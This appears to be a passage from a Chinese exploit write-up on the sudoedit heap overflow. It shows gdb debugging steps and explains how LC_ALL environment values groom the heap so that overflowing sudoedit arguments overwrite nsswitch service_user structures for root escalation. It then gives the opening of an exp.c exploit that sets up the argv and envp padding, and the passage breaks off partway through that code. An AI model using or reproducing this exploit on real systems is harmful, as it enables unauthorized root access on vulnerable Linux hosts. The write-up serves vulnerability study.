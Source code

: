 malloc处为0x1d9ab

首先gdb中

```
add-symbol-file sudoers.so 0x7ffff5b68000
b *(0x7ffff5b68000+0x1d9ab)
b __nss_database_lookup
```

在第一次__nss_database_lookup的位置断下，简单调试后可以发现这些初始化操作都是在分割一个比较大的chunk，同时后面0x80的堆块也是在这个chunk上方的



漏洞披露文章中有提到，main函数中的

```c
    setlocale(LC_ALL, "");
    bindtextdomain(PACKAGE_NAME, LOCALEDIR);
    textdomain(PACKAGE_NAME);
```

会读环境变量中LC相关的值进行malloc与free

在多次尝试并结合已公布exp分析后，发现只需要这样设置

```c
    char *LC = calloc(0x3000,1);
    strcpy(LC, "LC_ALL=C.UTF-8@");
    memset(LC+15, 'C', size);
		envp[envp_pos++] = LC;
```

就可以在初始化service_table之前在bins中存放一个size大小的chunk

在给其的大小为0x20+0x40+0x40+0x20时，就可以让对nsswitch.conf中password的初始化以及对group的entry的初始化落到这个空闲的0xc0的chunk中，而后面对group的service的初始化由于已经分割完了0xc0的chunk，会继续分割大chunk，落到0x80大小chunk的下方

至此，利用堆溢出漏洞，就可以成功覆盖到group所对应的serive_user结构体了，也就是可以成功提权

![image-20210203161040714](https://tva1.sinaimg.cn/large/008eGmZEly1gnaevx4xjrj31je0byjsa.jpg)

对于不同环境下的主机，需要查看其/etc/nsswitch.conf文件,来对各种偏移进行修改

exp.c:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

int main(){
    char paddingA[0x80];
    memset(paddingA,'A',0x6e);
    paddingA[0x6e]='\\';
    char *s_argv[]={
        "sudoedit", "-s", paddingA,"\\",NULL
    };
    char *envp[MAX_ENVP];
    int envp_pos = 0;
    for(int i = 0;i < 0x40;i++){
        envp[envp_pos++] = "\\";
    }
    envp[envp_pos++] = "X/X\\";
    for(int i = 0;i < 0xa0;i++){
        envp[envp_pos++] = "\\";
    }
    envp[envp_pos++]="AAAA";
    char *LC = calloc(0x3000,1);
```